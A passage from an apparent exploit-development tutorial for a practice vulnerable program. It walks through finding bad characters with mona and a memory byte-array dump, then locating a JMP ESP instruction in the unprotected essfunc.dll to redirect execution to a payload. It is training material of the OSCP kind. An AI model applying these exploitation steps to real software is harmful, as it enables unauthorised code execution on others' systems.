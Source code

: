 Or we can just use `mona` again.

`!mona bytearray -b "\x00"`

The result gets stored in our working folder.

Then we feed this to the application (after overwritting EIP).

We can see in immunity debugger already that ESP is pointing at the remainder our payload. And we can either compare what's in memory via a script of our making, or look at which bytes are out of sequence.

```python
01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F 10 11 12 13 14 15 16 17 18 19 1A 1B 1C 1D 1E 1F 20
21 22 23 24 25 26 27 28 29 2A 2B 2C 2D 2E 2F 30 31 32 33 34 35 36 37 38 39 3A 3B 3C 3D 3E 3F 40
41 42 43 44 45 46 47 48 49 4A 4B 4C 4D 4E 4F 50 51 52 53 54 55 56 57 58 59 5A 5B 5C 5D 5E 5F 60
61 62 63 64 65 66 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72 73 74 75 76 77 78 79 7A 7B 7C 7D 7E 7F 80
81 82 83 84 85 86 87 88 89 8A 8B 8C 8D 8E 8F 90 91 92 93 94 95 96 97 98 99 9A 9B 9C 9D 9E 9F A0
A1 A2 A3 A4 A5 A6 A7 A8 0A 0D AB AC AD AE AF B0 B1 B2 B3 B4 B5 B6 B7 B8 B9 BA BB BC BD BE BF C0
C1 C2 C3 C4 C5 C6 C7 C8 C9 CA CB CC 0A 0D CF D0 D1 D2 D3 0A 0D D6 D7 D8 D9 DA DB DC DD DE DF E0
E1 E2 E3 E4 E5 E6 E7 E8 E9 EA EB EC ED EE EF F0 F1 F2 F3 F4 F5 F6 F7 F8 F9 FA FB FC FD FE FF
```

Or, luckily we can have mona take care of this problem for us.

`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

No matter how we do that we get `a9 aa cd ce d4 d5`. One thing that can happen here, is that often when a character is changed, the character next to it gets changed to the wrong value too. But sometimes that second value isn't an actual bad char. To verify this we can remove A9, CD and D4 from our byte array and test again.

Of course for this we'll have to generate a byte array without those.

`!mona bytearray -b "\x00\xa9\xCD\xD4"`

And then we compare again. If there are no more bad characters we can confirm that we have all the values we need to avoid.

### Finding the Right Module

Alright, so we want to find what libraries are loaded by the application. And then find a JMP ESP instruction in those. So that we can tell the program what to execute our payload next.

One way we could do this is via Immunity Debugger's → View → Executable Modules and then view memory in each loaded module and search for an `FF E4` instruction in it. `FF E4` is the Hex for a JMP ESP instruction, we can check via nasm_shell.rb in the metasploit framework tools.

Now one thing this method is missing is what protections are active in the library. So i don't recommend it. I do recommend that you use `mona` this time.

 `!mona modules`

This will tell us what executable modules are loaded by our binary and it will also tell us which protections are in place for each. We can see that `essfunc.dll` has no protections active. Great we can exploit that. Then we can either follow the above procedure or we can just use this command to do the same thing:

`!mona find -s "\xff\xe4" -m essfunc.dll`
